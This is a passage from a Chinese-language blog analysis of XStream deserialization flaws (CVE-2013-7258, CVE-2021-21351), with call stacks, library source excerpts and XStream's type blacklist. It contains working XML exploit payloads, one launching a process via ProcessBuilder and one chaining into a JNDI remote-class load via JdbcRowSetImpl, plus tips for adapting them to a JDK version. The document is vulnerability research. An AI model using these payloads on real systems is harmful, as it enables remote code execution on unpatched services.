[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212321-bd56170a-3aa5-1.png)  
这里的 result 是 TreeMap  
接着进入 TreeMap 的 putAll 函数，然后调用父类 (Abstract) 的 putAll，接着又来到 TreeMap 的 put 方法，此时的 k 是代理类，它代理的是 EventHandler 类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212349-ce3d54fc-3aa5-1.png)  
执行到这里的时候会通过 EventHandler 的 invoke 方法调用 compareTo 方法

```plain
public Object invoke(final Object proxy, final Method method, final Object[] arguments) {
    AccessControlContext acc = this.acc;
    if ((acc == null) && (System.getSecurityManager() != null)) {
        throw new SecurityException("AccessControlContext is not set");
    }
    return AccessController.doPrivileged(new PrivilegedAction<Object>() {
        // 会执行这里
        public Object run() {
            return invokeInternal(proxy, method, arguments);
        }
    }, acc);
}
```

会继续执行至 invokeInternal 函数，直到下面这行代码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212441-ed1af7d0-3aa5-1.png)  
这里的 targetMethod 方法正是 java.lang.ProcessBuilder.start(),而这里的 targetMethod 方法是从上面的代码获取来的

```plain
if (targetMethod == null) {
    targetMethod = Statement.getMethod(target.getClass(),
                "set" + NameGenerator.capitalize(action), argTypes);
}
```

函数调用栈

```plain
invokeInternal:482, EventHandler (java.beans)
access$000:279, EventHandler (java.beans)
run:430, EventHandler$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
invoke:428, EventHandler (java.beans)
compareTo:-1, $Proxy0 (com.sun.proxy)
put:568, TreeMap (java.util)
putAll:281, AbstractMap (java.util)
putAll:327, TreeMap (java.util)
populateTreeMap:122, TreeMapConverter (com.thoughtworks.xstream.converters.collections)
unmarshal:94, TreeSetConverter (com.thoughtworks.xstream.converters.collections)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:65, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1157, XStream (com.thoughtworks.xstream)
unmarshal:1141, XStream (com.thoughtworks.xstream)
fromXML:1012, XStream (com.thoughtworks.xstream)
fromXML:1003, XStream (com.thoughtworks.xstream)
main:24, CVE20137258 (Xstream)
```

到这里，整个过程就结束了，**总结如下**：

1.  从 com.thoughtworks.xstream.core.TreeUnmarshaller 的 start 函数开始，执行 HierarchicalStreams.readClassType，通过标签名从 Mapper 中获取对应的 class 对象
2.  获得 class 对象后返回至 start 函数，来到 TreeUnmarshaller 的 convertAnother 函数，该方法将上面返回的类转换成 Java 对象
    *   通过 mapper.defaultImplementationOf 方法查找 class 的实现类
    *   通过 converterLookup.lookupConverterForType 根据对应的类寻找正确的转换器 Converter
    *   调用 AbstractReferenceUnmarshaller 的 convert 方法获得对应的对象
    *   根据获取到的 Converter，调用 unmarshal 方法，读取其子节点，并转化成对应的变量，直到所有节点解析完成

另一个 POC：

```plain
<tree-map>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>cmd</string>
                        <string>/C</string>
                        <string>calc</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

这里通过 this.converterLookup.lookupConverterForType 函数得到的 converter 是 TreeMapConverter  
而 TreeMapConverter 的 unmarshal 函数如下，相对来讲对比于 TreeSetConverter 转换器的 unmarshal 函数，少了很多判断条件，即限制

```plain
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    TreeMap result = comparatorField != null ? new TreeMap() : null;
    // 判断是否存在 comparator
    Comparator comparator = this.unmarshalComparator(reader, context, result);
    if (result == null) {
        result = comparator == null ? new TreeMap() : new TreeMap(comparator);
    }

    this.populateTreeMap(reader, context, result, comparator);
    return result;
}
```

其他过程与上面同理

## 6\. CVE-2021-21351

**影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**漏洞复现**：  
POC

```plain
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

官方的 POC 和这个不太一致，使用后会报如下错误

```plain
---- Debugging information ----
message             : No such field com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault._overrideDefaultParser
field               : _overrideDefaultParser
class               : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
required-type       : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
converter-type      : com.thoughtworks.xstream.converters.reflection.ReflectionConverter
path                : /sorted-set/javax.naming.ldap.Rdn$RdnEntry/value/m_DTMXRTreeFrag/m_dtm/m_mgrDefault/_overrideDefaultParser
```

这里表示 com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault 类中没有\_overrideDefaultParser 这个字段，于是查阅了 JDK1.8\_66 外部包的这个类，确实没有找到该字段，于是就删除了官方 POC 中下面这句就得到了以上的 POC

```plain
<__overrideDefaultParser>false</__overrideDefaultParser>
```

这里猜测应该是跟 JDK 版本有关，经查阅资料，这个属性在 JDK 低版本中是没有的，相关的博客也提到，可以更换成下面这句

```plain
<__useServicesMechanism>false</__useServicesMechanism>
```

**分析**  
函数调用栈

```plain
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
parseSome:373, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
deliverMoreNodes:312, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
nextNode:814, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
_firstch:535, DTMDefaultBase (com.sun.org.apache.xml.internal.dtm.ref)
getStringValue:1294, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
str:207, XRTreeFrag (com.sun.org.apache.xpath.internal.objects)
toString:314, XObject (com.sun.org.apache.xpath.internal.objects)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
compareTo:441, Rdn$RdnEntry (javax.naming.ldap)
compareTo:420, Rdn$RdnEntry (javax.naming.ldap)
put:568, TreeMap (java.util)
putAll:281, AbstractMap (java.util)
putAll:327, TreeMap (java.util)
populateTreeMap:121, TreeMapConverter (com.thoughtworks.xstream.converters.collections)
unmarshal:92, TreeSetConverter (com.thoughtworks.xstream.converters.collections)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:72, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1409, XStream (com.thoughtworks.xstream)
unmarshal:1388, XStream (com.thoughtworks.xstream)
fromXML:1273, XStream (com.thoughtworks.xstream)
fromXML:1264, XStream (com.thoughtworks.xstream)
main:81, CVE202121351 (Xstream)
```

上面这些 xml 解析过程直接跳过，可以看到 sorted-set 里面嵌套的是两个\\<javax.naming.ldap.Rdn\_-RdnEntry>，在分析 CVE-2013-7258 上可知，出发点在 TreeMap 的 putAll 函数，顺着来到 put 函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212509-fdb6bff2-3aa5-1.png)  
进入到 Rdn$RdnEntry 的 compareTo 函数，将两者的 value 进行对比  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212533-0bed8664-3aa6-1.png)  
然后 value 的值设置的是 com.sun.org.apache.xpath.internal.objects.XRTreeFrag，会调用它的 equal 函数  
接着一直来到 XRTreeFrag 的 str 函数：

```plain
public String str()
{
    String str = m_DTMXRTreeFrag.getDTM().getStringValue(m_dtmRoot).toString();

    return (null == str) ? "" : str;
}
```

通过 m\_DTMXRTreeFrag.getDTM() 函数就可以获得我们设置的 m\_dtm 为 SAX2DTM，然后调用其 getStringValue 函数  
最后经过层层递进来到 com/sun/org/apache/xml/internal/dtm/ref/IncrementalSAXSource\_Xerces 的 parseSome 函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212420-e0635578-3aa5-1.png)  
在 POC 中对响应的参数如 fPullParserConfig 设置成了类 JdbcRowSetImpl，接下来就是使用 JdbcRowSetImpl 这个类去远程加载恶意的类造成 JNDI 注入了

## 7\. 防护

XStream 为了防护这些漏洞，直接使用黑名单的方式对可利用链的相关类进行拦截，如 1.4.15 中 XStream.class 类中的 setupSecurity 函数

```plain
protected void setupSecurity() {
    if (this.securityMapper != null) {
        this.addPermission(AnyTypePermission.ANY);
        this.denyTypes(new String[]{"java.beans.EventHandler", "java.lang.ProcessBuilder", "javax.imageio.ImageIO$ContainsFilter", "jdk.nashorn.internal.objects.NativeString"});
        this.denyTypesByRegExp(new Pattern[]{LAZY_ITERATORS, JAVAX_CRYPTO, JAXWS_FILE_STREAM});
        this.allowTypeHierarchy(Exception.class);
        this.securityInitialized = false;
    }
}
```

## 8\. 参考

[https://paper.seebug.org/1543](https://paper.seebug.org/1543)  
[https://www.cnblogs.com/nice0e3/p/15046895.html](https://www.cnblogs.com/nice0e3/p/15046895.html)  
[https://y4tacker.github.io/2022/02/10/year/2022/2/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/](https://y4tacker.github.io/2022/02/10/year/2022/2/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)  
[https://x-stream.github.io/javadoc/index.html](https://x-stream.github.io/javadoc/index.html)  
[https://x-stream.github.io/tutorial.html](https://x-stream.github.io/tutorial.html)  
[https://xz.aliyun.com/t/11372](https://xz.aliyun.com/t/11372)  
[https://www.cnblogs.com/escape-w/p/16107046.html](https://www.cnblogs.com/escape-w/p/16107046.html)
